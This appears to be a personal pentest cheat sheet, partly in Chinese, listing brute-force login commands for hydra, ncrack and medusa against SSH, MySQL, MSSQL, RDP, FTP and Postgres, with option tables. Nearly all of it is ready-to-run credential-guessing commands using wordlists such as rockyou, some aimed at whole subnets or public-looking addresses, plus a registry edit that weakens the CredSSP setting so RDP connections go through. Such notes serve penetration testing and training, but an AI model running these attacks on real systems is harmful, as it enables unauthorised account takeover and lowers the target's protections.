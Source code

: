 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
# mssql
hydra -l sa -P password.txt -f mssql://39.99.149.148:1433/
hydra -L usernames.txt –P ./password.txt <target-ip> mssql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |

# rdp

远程桌面 要求的函数不受支持

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
```

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
```

## rdp/御剑 RDP 爆破工具/超级弱口令检查工具/fscan/

## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```

# medusa
medusa 比 hydra快一些
```bash
# FTP
medusa -h 192.168.1.1 -u admin -P /top1000_password.txt -M ftp -e ns -t 10 -f -r 0 -O ./result_ftp.txt
medusa -M ftp -h 192.168.135.121 -u zc -p top1000.txt
# ssh
medusa -M ssh -h 192.168.75.141 -u flag4 -P top1000.txt -V
# mysql
medusa -h 192.168.137.133 -u root -P /wordlist.txt -M mysql
# postgres
medusa -H /ip.txt -u postgres -n 5432 -P /tmp/pass.txt -e ns -M postgres -T 255 -f -O /tmp/good.txt -r 0
```

| params      | desc                                        |
| ----------- | ------------------------------------------- |
| -n [NUM]    | 使用非默认端口                              |
| -e [n/s/ns] | N 意为空密码，S 意为密码与用户名相同        |
| -t [NUM]    | 设定线程数量                                |
| -f          | 在任何主机上找到第一个账号/密码后，停止破解 |
| -r [NUM]    | 重试间隔时间，默认为 3 秒                   |
| -V          | 显示版本                                    |

